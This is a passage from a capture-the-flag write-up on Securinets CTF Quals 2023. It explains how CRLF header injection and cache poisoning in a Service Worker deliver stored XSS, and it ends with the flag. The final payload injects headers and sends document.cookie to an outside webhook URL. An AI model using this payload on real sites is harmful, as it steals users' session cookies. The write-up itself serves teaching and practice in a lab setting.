## Update

***Update: I figured out if you injected the `Content-Length` response header, it'll actually excepted to wait for more bytes, that explains why there's a weird response time.***

**If you pay attention to the injected JSON XSS payload, you'll see the original `Content-Length` response header:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807191438.png)

**Currently it's `149`. What if I add more characters?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807191515.png)

It's still `149`!! That being said, **the `Content-Length` response header's value is fixed**!

**Hence, the final payload will be:**
```
overwriteUserid: foobar\r\n
\r\n
{"token":"<img src=errorpls onerror=location.href='//webhook.site/26e56a2a-016e-454e-87f6-4080f4c6f444?flag='.concat(document.cookie)>aaaaaaaaaaaaa"}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807191605.png)

No more weird response time!

**Profit:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807191756.png)

- **Flag: `Securinets{Great_escape_with_Crlf_in_latest_werkzeug_header_key_&&_cache_poison}`**

## Conclusion

What we've learned:

1. Exploiting web cache poisoning in JavaScript's Service Worker to deliver XSS payload